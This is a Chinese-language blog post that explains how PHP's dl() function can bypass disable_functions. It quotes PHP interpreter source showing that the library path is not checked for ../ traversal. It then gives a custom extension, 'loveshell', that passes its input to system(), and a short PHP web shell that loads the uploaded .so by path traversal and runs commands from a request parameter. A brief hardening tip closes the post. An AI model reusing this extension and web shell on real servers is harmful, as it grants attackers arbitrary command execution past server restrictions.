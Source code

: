 title: 利用dl函数突破disable_functions执行命令
date: 2011-12-04 08:26:22
---

PHP 是一款功能强大应用广泛的脚本语言，很大一部分网站都是使用PHP架构的。因为其提供了强大的文件操作功能和与系统交互的功能，所以大部分的服务器都对 PHP做了严格的限制，包括使用open_basedir限制可以操作的目录以及使用disable_functions限制程序使用一些可以直接执行系统命令的函数如system，exec，passthru，shell_exec，proc_open等等。但是如果服务器没有对dl()函数做限制，一样可以利用dl()函数饶过这些限制。<br />
<p>
	dl()函数允许在php脚本里动态加载php模块，默认是加载extension_dir目录里的扩展，该选项是PHP_INI_SYSTEM 范围可修改的，只能在php.ini或者apache主配置文件里修改。当然，你也可以通过enable_dl选项来关闭动态加载功能，而这个选项默认为 On的，事实上也很少人注意到这个。dl()函数在设计时存在安全漏洞，可以用../这种目录遍历的方式指定加载任何一个目录里的so等扩展文件， extension_dir限制可以被随意饶过。所以我们可以上传自己的so文件，并且用dl函数加载这个so文件然后利用so文件里的函数执行其他操作，包括系统命令。
</p>
<p>
<pre class="prettyprint lang-php">PHP_FUNCTION(dl)
{
pval **file;

#ifdef ZTS
if ((strncmp(sapi_module.name, "cgi", 3)!=0) &amp;&amp;
       (strcmp(sapi_module.name, "cli")!=0) &amp;&amp;
       (strncmp(sapi_module.name, "embed", 5)!=0)) {
       php_error_docref(NULL TSRMLS_CC, E_WARNING, "Not supported in multithreaded Web servers - use extension statements in your php.ini");
       RETURN_FALSE;
}          //验证是否可以使用dl函数，在多线程web服务器里是禁止的
#endif

/* obtain arguments */
if (ZEND_NUM_ARGS() != 1 || zend_get_parameters_ex(1, &amp;file) == FAILURE) {
       WRONG_PARAM_COUNT;
}

convert_to_string_ex(file);    //取得参数

if (!PG(enable_dl)) {
       php_error_docref(NULL TSRMLS_CC, E_WARNING, "Dynamically loaded extentions aren't enabled");//验证是否enable_dl，默认为on
} else if (PG(safe_mode)) {
       php_error_docref(NULL TSRMLS_CC, E_WARNING, "Dynamically loaded extensions aren't allowed when running in Safe Mode");//验证是否safe_mode打开
} else {
       php_dl(*file, MODULE_TEMPORARY, return_value TSRMLS_CC);   //开始调用加载
       EG(full_tables_cleanup) = 1;
}</pre>
下面是开始处理模块的加载
</p>
<p>
<pre class="prettyprint lang-php">void php_dl(pval *file, int type, pval *return_value TSRMLS_DC)
{
void *handle;
char *libpath;
zend_module_entry *module_entry, *tmp;
zend_module_entry *(*get_module)(void);
int error_type;
char *extension_dir;          //定义一些变量
      
if (type==MODULE_PERSISTENT) {
       /* Use the configuration hash directly, the INI mechanism is not yet initialized */
       if (cfg_get_string("extension_dir", &amp;extension_dir)==FAILURE) {
         extension_dir = PHP_EXTENSION_DIR;
       }
} else {
       extension_dir = PG(extension_dir);
}                      //取得php.ini里的设置也就是extension_dir的目录

if (type==MODULE_TEMPORARY) {
       error_type = E_WARNING;
} else {
       error_type = E_CORE_WARNING;
}

if (extension_dir &amp;&amp; extension_dir[0]){
       int extension_dir_len = strlen(extension_dir);

       libpath = emalloc(extension_dir_len+Z_STRLEN_P(file)+2);

       if (IS_SLASH(extension_dir[extension_dir_len-1])) {
         sprintf(libpath, "%s%s", extension_dir, Z_STRVAL_P(file)); /* SAFE */
       } else {
         sprintf(libpath, "%s%c%s", extension_dir, DEFAULT_SLASH, Z_STRVAL_P(file)); /* SAFE */
       }                    //构造最终的so文件的位置，只是简单的附加，并没有对传入的参数做任何检查，包括open_basedir等
} else {
       libpath = estrndup(Z_STRVAL_P(file), Z_STRLEN_P(file));
}
/* load dynamic symbol */
handle = DL_LOAD(libpath);          //开始真正的调用了</pre>
看到了吧，我们可以调用任意的so了哦！下一步就是编写自己的so模块，并且调用他。按照官方提供的模块编写方法，我写了个很简单的，主要的导出函数loveshell如下：
</p>
<p>
<pre class="prettyprint lang-php">PHP_FUNCTION(loveshell)

{
       char *command;
       int command_len;

       if (ZEND_NUM_ARGS() != 1 || zend_parse_parameters(ZEND_NUM_ARGS() TSRMLS_CC,"s", &amp;command, &amp;command_len) == FAILURE) {
      WRONG_PARAM_COUNT;
       }
       system(command);
       zend_printf("I recieve %s",command);
}</pre>
注意由于php4和php5的结构不一样，所以如果想要能顺利调用扩展，那么在php4环境下就要将上面的代码放到php4环境下编译，php5的就要在php5环境下编译。我们将编写好的扩展上传到服务器，就可以利用下面的代码执行命令了：
</p>
<p>
<pre class="prettyprint lang-php">   &lt;?php
dl('../../../../../../../../../www/users/www.cnbct.org/loveshell.so');
$cmd=$_REQUEST[c]." 2&gt;&amp;1&gt;tmp.txt";
loveshell($cmd);
echo "";
echo file_get_contents('tmp.txt');
?&gt;</pre>
所以如果想保证服务器的安全，请将这个函数加到disable_functions里或者将安全模式打开吧，在安全模式下dl函数是无条件禁止的！：）
</p>